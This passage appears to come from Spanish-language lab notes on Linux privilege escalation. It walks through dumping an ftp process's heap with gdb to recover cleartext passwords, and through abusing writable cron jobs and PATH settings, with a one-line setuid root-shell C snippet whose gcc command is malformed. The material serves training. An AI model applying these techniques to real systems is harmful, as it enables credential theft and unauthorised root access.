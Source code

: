 El acceso a "ese" espacio de memoria en concreto es solo posible si la "operación" se realiza en el mismo contexto de usuario

**Ejercicio de Explotación**

_Kali_

1. In command prompt type: msfconsole
2. In Metasploit \(msf &gt; prompt\) type: use auxiliary/server/ftp
3. In Metasploit \(msf &gt; prompt\) type: set FTPUSER user
4. In Metasploit \(msf &gt; prompt\) type: set FTPPASS password321
5. In Metasploit \(msf &gt; prompt\) type: run

_Linux VM_

1. In command prompt type: ftp \[Kali VM IP Address\]
2. In ftp, type: user
3. In ftp, type: password321
4. In ftp press ctrl-z
5. In command prompt type: ps -ef \| grep ftp
6. Make note of the PID of the ftp process.
7. In command prompt type: gdb -p \[FTP PID\]
8. In GDB, \(gdb\) prompt, type: info proc mappings
9. From the output, note the start and end memory addresses of the “\[heap\]”
10. In GDB. \(gdb\) prompt, type: q
11. In GDB, \(gdb\) prompt, type: dump memory /tmp/mem \[Start Address\] \[End Address\]
12. In GDB. \(gdb\) prompt, type: q
13. In command prompt type: strings /tmp/mem \| grep passw
14. From the output, note the credentials in clear-text.

#### Bala de plata IV: Atacando Cron

**Configuraciones**

Si un fichero que se ejecuta con cron no esta bien configurado podría ser posible modificarlo y conseguir una escalada de privilegios muy fáciles. Por ejemplo, si tenemos permiso de escritura de un fichero que se ejecuta con cron, se podría modificar el código.

Por ejemplo, un cron ejecutado con permisos de root:

int main\(\) { setuid\(0\); system\("/bin/bash -p"\); }

gcc -o filename.c

**Modificación del Path**

PATH contiene o indica la ruta a los directorios en los cuales cron buscará el comando a ejecutar. Este path es distinto al path global del sistema o del usuario.

* Una posibilidad es modificar la variable Path del fichero crontab para que busque determinado fichero en una ubicación concreta
* Observar si un scrip cron no tiene definido un path absoluto, también puede ser un vector de ataque

**Explotación**

1. Compilar un shell file
2. Colocarlo en una ubicacion del path accesible
3. Esperar que sea ejecutado por cron
